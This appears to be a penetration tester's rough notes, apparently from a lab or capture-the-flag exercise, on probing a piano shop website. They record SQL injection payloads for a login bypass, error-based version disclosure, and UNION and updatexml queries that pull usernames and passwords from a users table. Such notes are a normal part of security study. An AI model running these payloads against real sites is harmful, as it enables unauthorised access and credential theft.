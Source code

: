 ![[Pasted image 20241125111532.png]]
`/about` page
![[Pasted image 20241125111741.png]]

----------

`/pianos`
![[Pasted image 20241125111832.png]]

`/pianos/uprights`
![[Pasted image 20241125111920.png]]
after clicking a `series` leads to a potential vulnerable field `pianoID` for sql?
![[Pasted image 20241125112052.png]]

first test
```bash
2 or 1=1--
```
no error & properly renders
![[Pasted image 20241125113221.png]]

register page
![[Pasted image 20241125113636.png]]
login page
![[Pasted image 20241125113659.png]]
on the `login` page, vulnerable to `mysql payload`

```sql
a' or 'a' = 'a'
```
![[Pasted image 20241125114215.png]]
`MySQL` error
![[Pasted image 20241125114254.png]]
2nd test payload - took away one `backtick`
```sql
a' or 'a' = 'a
```
user admin doesn't exist
![[Pasted image 20241125114418.png]]
need to get version of `mysql`
```sql
'extractvalue('',concat('>',version()))
```

![[Pasted image 20241125114958.png]]



```sql
SELECT id, name, description, price FROM menu UNION ALL SELECT id, username, password, 1 FROM users;
```

![[Pasted image 20241125115439.png]]

```sql
'SELECT id, name, description, price FROM menu UNION ALL SELECT id, username, password, 1 FROM users;
```

![[Pasted image 20241125115518.png]]


```bash
test' union all select 1,2,3,4,5,updatexml(null,concat(0x0a,(select password from piano_protocol.users limit 0,1)),null) -- +
```